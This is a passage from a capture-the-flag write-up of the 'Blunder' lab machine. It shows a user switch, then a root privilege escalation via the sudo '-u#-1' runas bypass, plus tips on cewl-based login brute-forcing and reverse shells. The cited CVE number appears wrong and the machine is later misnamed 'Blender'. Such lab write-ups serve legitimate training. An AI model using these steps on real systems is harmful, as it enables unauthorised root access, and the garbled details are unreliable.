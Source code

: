 We can now switch the user to 'Hugo' as:

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ su hugo           
su hugo
Password: 

hugo@blunder:/var/www/bludit-3.9.2/bl-content/tmp/temp$ cd /home/hugo
cd /home/hugo
hugo@blunder:~$ cat user.txt
cat user.txt
```

And there we get the user flag.

### Privilege Escalation

We can now run the command `sudo -l` to check the commands that 'hugo' can run with `sudo` privilege:

```
hugo@blunder:~$ sudo -l
sudo -l
Password: 

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

Now the entry `(ALL, !root) /bin/bash` gives a direct hint towards the vulnerability [CVE-2019-4287](https://www.exploit-db.com/exploits/47502) which can be simply exploited as:

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
Password: 

root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
```

With exploiting this simple vulnerability we get root access and can read the flag as well!

With this, we pwned the Blender machine!



## Some Key Points to Take Away

1. When you have access to some articles try using `cewl` to obtain a list of words and use them to bruteforce login.
2. If you are not able to make an unstable shell stable, try to get another reverse shell from the unstable shell.
